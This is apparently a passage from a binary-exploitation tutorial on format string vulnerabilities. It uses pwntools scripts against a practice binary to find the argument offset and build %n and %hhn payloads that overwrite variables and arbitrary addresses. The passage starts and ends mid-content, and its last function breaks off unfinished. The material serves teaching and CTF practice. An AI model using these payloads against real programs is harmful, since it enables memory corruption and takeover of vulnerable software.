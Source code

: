 ```c++
0xffffcd28│+0x1c: "%d%d" ← $eax
```

We can find that the value of the variable `c` is stored at `0xffffcd14`. Then, we determine that the address of the format string `%d%d` of the format string `0xffffcd28` relative to the format string parameter `0xffffcd10` of the `printf` function is `0x18`, that is, the format string is equivalent to the `7th parameter of the `printf` function and is equivalent to the `6th parameter of the format string.

In this way, the value at the `6th parameter is the address of the storing variable `c`, so we can use the `%n` feature to modify the value of `c`, and the `payload` is as follows:

```bash
[addr of c]%012d%6$n
```

The length of `addr of c` is `4`, so we have to enter `12` characters to reach `16` characters, so that we can modify the value of `c` to `16`. The script is as follows:

```python
def forc():
    sh = process('./overflow')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print hex(c_addr)
    payload = p32(c_addr) + '%012d' + '%6$n'
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

forc()
```

#### Overwrite any address memory
#####Cover small numbers
```python
def fora():
    sh = process('./overflow')
    a_addr = 0x0804A024
    payload = 'aa%8$naa' + p32(a_addr)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```
#####Cover big numbers
```python
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
```